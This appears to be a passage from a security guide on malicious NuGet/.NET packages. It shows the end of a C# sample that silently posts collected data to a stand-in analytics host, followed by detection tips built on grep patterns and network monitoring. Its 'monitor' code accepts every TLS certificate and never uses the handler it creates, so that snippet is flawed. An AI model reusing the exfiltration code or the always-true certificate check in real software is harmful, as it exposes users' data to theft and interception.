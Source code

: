 ```csharp
                    // Send to attacker's server
                    using var client = new HttpClient();
                    await client.PostAsJsonAsync(
                        "https://innocent-looking-analytics.com/collect", 
                        data);
                }
                catch 
                {
                    // Silently fail to avoid detection
                }
            });
        }
    }
}
```

### How to Detect Such Attacks

**1. Code Analysis (If Source Available)**
```bash
# Check for suspicious patterns
grep -r "HttpClient" ./package-source/
grep -r "Task.Run" ./package-source/
grep -r "PostAsync" ./package-source/
```

**2. Network Monitoring During Testing**
```bash
# Monitor network connections while testing
sudo lsof -i -P | grep dotnet
netstat -an | grep ESTABLISHED

# Use tools like Wireshark to monitor network traffic
# Look for unexpected outbound connections
```

**3. Runtime Behavior Analysis**
```csharp
// Add monitoring to detect unusual behavior
public class PackageSecurityMonitor
{
    public static void MonitorNetworkActivity()
    {
        // Monitor for unexpected HTTP calls
        var handler = new HttpClientHandler();
        handler.ServerCertificateCustomValidationCallback = 
            (sender, cert, chain, sslPolicyErrors) =>
            {
                // Log all HTTPS connections
                Console.WriteLine($"HTTPS connection to: {cert.Subject}");
                return true;
            };
    }
}
```
